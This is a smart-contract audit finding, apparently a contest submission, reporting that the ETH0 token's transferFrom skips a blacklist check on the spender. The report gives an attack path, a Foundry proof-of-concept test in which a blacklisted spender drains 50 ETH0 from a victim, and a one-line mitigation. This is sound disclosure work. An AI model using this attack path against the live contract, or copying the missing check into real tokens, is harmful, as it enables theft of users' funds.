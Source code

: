 Lucky Gunmetal Hippo

High

# Blacklisted addresses can still move others’ ETH0 via `transferFrom`

### Summary

A missing `msg.sender` blacklist check in `Eth0.transferFrom(...)` allows a blacklisted spender to pull tokens from any approved wallet. As a result, an address that has been blacklisted (and should be frozen) can still move ETH0 from victims’ accounts, bypassing the intended blacklist safeguard.

### Root Cause

In [`Eth0.sol`](https://github.com/sherlock-audit/2025-05-usual-eth0/blob/main/eth0-protocol/src/token/Eth0.sol#L1), `transferFrom(address sender, address recipient, uint256 amount)` simply calls:

```solidity
return super.transferFrom(sender, recipient, amount);
```

OpenZeppelin’s `transferFrom` only invokes the `_update(from, to, amount)` hook, which checks that **`sender`** and **`recipient`** are not blacklisted—but it does not check whether **`msg.sender`** (the spender) is blacklisted. Thus, a blacklisted spender can still initiate a transferFrom as long as the victim’s allowance was set previously.


### Internal Pre-conditions

1. **Victim** calls `eth0.approve(spender, allowanceAmount)` → sets an allowance for `spender`.
2. **Admin** then blacklists `spender` via `eth0.blacklist(spender)`, so `isBlacklisted[spender] == true`.
3. `spender` still holds the `allowanceAmount` from `victim`.


### External Pre-conditions

*

### Attack Path


1. Victim grants a one-time allowance to `BadSpender`:
2. Admin blacklists `BadSpender`:
3. Despite being blacklisted, `BadSpender` calls:
   ```solidity
   vm.prank(badSpender);
   eth0.transferFrom(victim, attacker, 50e18);
   ```
4. Inside OZ’s `super.transferFrom`, `_update(from= victim, to= attacker, amount)` checks only `isBlacklisted[victim]` and `isBlacklisted[attacker]`. Since neither is blacklisted, the transfer succeeds.
5. Victim’s 50 ETH0 is drained into `attacker`’s account.


### Impact

* Any blacklisted address can still “pull” ETH0 from any victim who previously set an allowance.
* Victims lose funds despite having blacklisted the spender.
* Undermines the intended “no transfers, no burns” policy for blacklisted addresses—effectively nullifying blacklisting for ERC-20 allowances.


### PoC

```solidity
    function testBlacklistedSpenderCanStillTransferFrom() public {
        address badSpender = address(0xB2);
        address victim    = address(0xC3);
        address attacker    = address(0xD4);
        // Mint 100 ETH0 to victim:
        vm.prank(address(registryContract.getContract(CONTRACT_DAO_COLLATERAL)));
        eth0Token.mint(victim, 100e18);

        // Victim approves badSpender for 50 ETH0:
        vm.prank(victim);
        eth0Token.approve(badSpender, 50e18);

        // Admin blacklists badSpender:
        vm.prank(blacklistOperator);
        eth0Token.blacklist(badSpender);

        // Confirm badSpender is blacklisted:
        assertTrue(eth0Token.isBlacklisted(badSpender));

        // badSpender calls transferFrom despite being blacklisted:
        vm.prank(badSpender);
        eth0Token.transferFrom(victim, attacker, 50e18);

        // Attacker now holds the 50 ETH0 drained from victim:
        assertEq(eth0Token.balanceOf(attacker), 50e18);

        // Victim lost 50 ETH0 even though badSpender was blacklisted:
        assertEq(eth0Token.balanceOf(victim), 50e18);
    }
```

### Mitigation

Insert an explicit blacklist check for `msg.sender` at the top of `transferFrom(...)`